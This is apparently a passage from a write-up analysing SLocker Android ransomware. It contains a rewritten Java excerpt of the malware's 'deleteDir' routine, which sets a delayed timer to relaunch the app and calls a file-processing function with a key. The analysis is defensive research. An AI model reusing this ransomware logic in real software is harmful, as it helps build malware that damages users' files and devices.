 ![bar](/assets/res/malware/slocker/bar.png)

and in background, the routine `sss.deleteDir` is executed and does its evil job (re-written):

> ```java
>public static void deleteDir(String path, String key, int action, Context context){
>	if (action != 0) {
>		new Timer().schedule(new TimerTask(){
>			public void run(){
>				SharedPreferences.Editor editor = context.getSharedPreferences("XH", 0).edit();
>				editor.putInt("sss", 1);
>				editor.commit();
>				MainActivity.instance.finish();
>				Intent intent = sss.this.getPackageManager().getLaunchIntentForPackage(sss.this.getPackageName());
>				intent.addFlags(Intent.FLAG_ACTIVITY_CLEAR_TOP);
>				context.startActivity(intent);
>			}
>		}, 600000);
>	}
>	deleteDirWihtFile(new File(path), key, action, context);
>	bool = true;
>}
> ```
